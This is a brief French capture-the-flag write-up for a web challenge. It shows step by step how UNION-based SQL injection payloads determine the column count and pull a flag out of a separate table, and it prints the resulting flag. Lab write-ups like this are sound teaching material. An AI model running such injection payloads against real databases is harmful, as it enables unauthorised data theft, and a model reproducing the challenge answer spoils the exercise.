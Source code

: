 # SQL injection 4

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce quatrième défi d'injection SQL requiert de charger des données qui sont dans une autre table. La table `users` ne contient qu'un seul utilisateur: `admin`. Cependant, il existe une nouvelle table `flag` qui contient un certain nombre de colonnes. Parmis ces colonnes, on trouve la colonne `flag` qui contient ce que vous cherchez. 

## Setup

Requirements:
- BurpSuite

# Writeup

https://portswigger.net/web-security/sql-injection/union-attacks

En se basant sur la technique expliquée dans la page web ci-haut, on doit déterminer le nombre de colonnes. 

`" union select 1 from flag--`
`" union select 1,2 from flag--`
`" union select 1,2,3 from flag--`

Les deux premières requêtes donnent un erreur. La troisième retourne `3`. On sait que pour afficher le flag, on devra utiliser la troisième colonne, donc on essaye la requête `" union select 1,2,flag from flag--`. 

C'est à ce moment qu'on obtient le flag `FLAG-1e11d3339f7329a3c2e758f224564e95`.
